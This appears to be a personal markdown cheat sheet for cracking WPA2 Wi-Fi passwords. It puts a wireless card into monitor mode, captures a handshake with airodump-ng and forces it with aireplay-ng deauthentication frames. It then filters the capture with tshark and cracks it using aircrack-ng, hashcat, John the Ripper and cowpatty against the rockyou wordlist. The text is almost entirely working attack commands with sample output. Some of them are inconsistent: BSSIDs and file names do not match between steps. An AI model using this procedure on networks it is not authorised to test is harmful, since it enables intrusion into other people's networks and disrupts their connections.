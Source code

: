 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

#### Set channel if needed
```text
iw wlan0mon set channel 7
```

### Check for networks with WPA available (normally WPA CCNP PSK)
```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
30:94:8F:E8:89:5F  -25      240      131    0   6  130   WPA2 CCMP   PSK  linksys

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
30:94:8F:E8:89:5F  E4:84:D3:2E:1F:22  -38    1e- 1e   948      265
```

### Monitor/grab packets and wait for the handshake
```text
sudo airodump-ng -c 6 --bssid 30:94:8F:E8:89:5F -w file wlan0mon
```

### De-auth for a seprate channel to spead up / bute force the handshake
```text
sudo aireplay-ng -0 1 -a 30:94:8F:E8:89:5F -c E4:84:D3:2E:1F:42 wlan0
```

### once handshake has been collected ....


### Review packets captured
```text
aircrack-ng file-01.cap
```
```text
#  BSSID              ESSID                     Encryption
1  30:94:8F:E8:89:5F  linksys                WPA (1 handshake)
```

### Tidy up cap file and reduce size
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 30:94:8F:E8:89:5F" -2 -w out.cap -F pcap
```
### Review output file
```text
aircrack-ng out.cap
```

### Cracking

```text
locate rockyou.txt

aircrack-ng -a2 -b 10:27:F5:66:BE:27 -w rockyou.txt out.cap

0:27:F5:66:BE:27
```
#### Or a faster way to crack

```text
22000 | WPA-PBKDF2-PMKID+EAPOL
22001 | WPA-PMK-PMKID+EAPOL
```

```text
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hc2200.txt rockyou.txt
```

#### or ....

```text
hccap2john out.cap > hc2200.txt
john --wordlist=rockyou.txt --format=wpapsk hc2200.txt 
```

#### or ....

create a rainbow table and crack with that!
```text
genpmk -f <wordlist> -d precomputed-common -s home
cowpatty -d precomputed-common -s <ESSID> -r out.cap
```

https://charlesreid1.com/wiki/John_the_Ripper/WPA
https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2












